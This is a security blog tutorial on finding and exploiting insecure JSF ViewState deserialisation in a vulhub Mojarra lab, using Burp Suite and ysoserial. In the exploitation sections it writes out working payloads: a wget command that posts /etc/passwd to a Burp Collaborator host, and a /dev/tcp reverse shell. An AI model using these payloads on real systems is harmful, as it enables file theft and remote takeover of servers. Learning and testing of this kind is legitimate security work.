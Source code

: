 ```yaml
---
layout: post
title: Demystifying Insecure Deserialisation on JSF Application
date: 2021-05-08
summary: JSF Viewstate Deserialisation
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone,

In this blog, we will see about one of the interesting vulnerability **Insecure Deserialisation on JSF Application** which occurs due to the **misconfigured viewstate**

<p align="center">
  <img src="/images/deserialisation/desc1.png">
</p>

<p align="center"> <strong>Difference between Serialization & Deserialization:</strong></p>

* Serialization is the process of taking an object and translating it into plaintext. This plaintext can then be encrypted or signed, as well as simply used the way it is.

* The **reverse** process is called **deserialization**, i.e. when the plaintext is converted back to an object.

<p align="center">
  <img src="/images/deserialisation/desc2.png">
</p>

<p align="center"> <strong>ViewState</strong></p>

* The purpose of “ViewState” is to memorize the state of the user, even after numerous HTTP queries (stateless protocol).
* Different Types of View-state
  1. .Net - ``___Viewstate``
  2. JSF - ``javax.faces.Viewstate``    

<p align="center"> <strong>Flow of JSF ViewState</strong></p>

* The "ViewState" of a page is by default, stored in a hidden form field in the web page named **javax.faces.ViewState**.
* ViewState starts with **H4sIAAAA**, which represent the Base64Gzip.

<p align="center">
  <img src="/images/deserialisation/desc3.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc4.png">
</p>

<p align="center"> <strong>Layers in JSF Viewstate</strong></p>

<p align="center">
  <img src="/images/deserialisation/desc5.png">
</p>

<p align="center"><strong>Environment Setup</strong></p>

Step 1: Create a Docker Compose file using the following command 

`docker-compose.yml`

```bash
version: '2'
services:
  web:
    image: vulhub/mojarra:2.1.28
    ports:
      - "8080:8080"
```

Step 2: Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28

```bash
docker-compose up -d
```
<p align="center">
  <img src="/images/deserialisation/desc6.png">
</p>

Step 3: After the application is started, visit http://127.0.0.1:8080 to see the demo page.

<p align="center">
  <img src="/images/deserialisation/desc7.png">
</p>

<p align="center"><strong>Decoding JSF Viewstate</strong></p>

Step 1: Open the Demo URL http://127.0.0.1:8080 , give a sample input and intercept the request using Client-Side Proxy such as Burpsuite as shown below.

<p align="center">
  <img src="/images/deserialisation/desc8.png">
</p>

Step 2: In the request body, it can be observed that the application uses JSF Viewstate format.

<p align="center">
  <img src="/images/deserialisation/desc9.png">
</p>

Step 3: Select the **javax.faces.ViewState** values , right click & send it to **Decoder** as shown below.

<p align="center">
  <img src="/images/deserialisation/desc10.png">
</p>

Step 4: First do a **URL Decode** -> **Base64 Decode** -> **GZip Decode**.

<p align="center">
  <img src="/images/deserialisation/desc11.png">
</p>

Step 5: The final output gives some information about the java utils and components used in the application.

<p align="center">
  <img src="/images/deserialisation/desc12.png">
</p>

<p align="center"><strong>Burpsuite Extenders & Tools Configuration</strong></p>

* Install **Java Deserialization Scanner** from **Extenders** -> **BApp Store**.

<p align="center">
  <img src="/images/deserialisation/desc13.png">
</p>

* Navigate to the **Deserialization Scanner** -> **Configurations** and configure the ysoserial.

<p align="center">
  <img src="/images/deserialisation/desc14.png">
</p>

Note: ysoserial can be downloaded from <https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar>

<p align="center"><strong>Vulnerability Detection</strong></p>

Step 1: Intercept the request of the application and send the request to **DS - Manual Testing** .

<p align="center">
  <img src="/images/deserialisation/desc15.png">
</p>

Step 2: Select the **javax.faces.ViewState** values and **Set Insertion Point**.

<p align="center">
  <img src="/images/deserialisation/desc16.png">
</p>

Step 3: Choose Attack (Base64GZip) as shown below.

<p align="center">
  <img src="/images/deserialisation/desc17.png">
</p>

Step 4: If the viewstate is vulnerable, it will show **Potentially VULNERABLE!!!**.

<p align="center">
  <img src="/images/deserialisation/desc18.png">
</p>

Step 5: Now we got the payload type which is **Jdk7u21** 

<p align="center"><strong>Exploitation Phase</strong></p>

NOTE: There are two ways to Exploit a JSF Viewstate Deserialisation

* Out-Of-Band 
* Reverse Shell

<p align="center"><strong>Exploitation using Deserialization Scanner</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to perform a **OOB Deserialisation** and Read Internal Files of the application

```bash
Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net"
```

<p align="center">
  <img src="/images/deserialisation/desc19.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc20.png">
</p>

<p align="center"><strong>Manual Payload Creation using Ysoserial</strong></p>

**Ysoserial Syntax** 

```bash
java -jar ysoserial-[version]-all.jar [payload] '[command]'
```
**Payload Command**

```bash
java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net" | gzip | base64 -w 0
```
 
<p align="center">
  <img src="/images/deserialisation/descc21.png">
</p>

* Replace the **javax.faces.ViewState** value with the Ysoserial generated payload and **URL Encode** it.

<p align="center">
  <img src="/images/deserialisation/descc22.png">
</p>

* Click on Go and Observe the response in Burp Collaborator.

<p align="center">
  <img src="/images/deserialisation/desc23.png">
</p>

<p align="center"><strong>Establishing a Stable Reverse Shell</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to gain a **Reverse Shell**.

```bash
Jdk7u21 "/bin/bash -c /bin/bash${IFS}-i>&/dev/tcp/ipaddress/1337<&1"
```

<p align="center">
  <img src="/images/deserialisation/desc24.png">
</p>

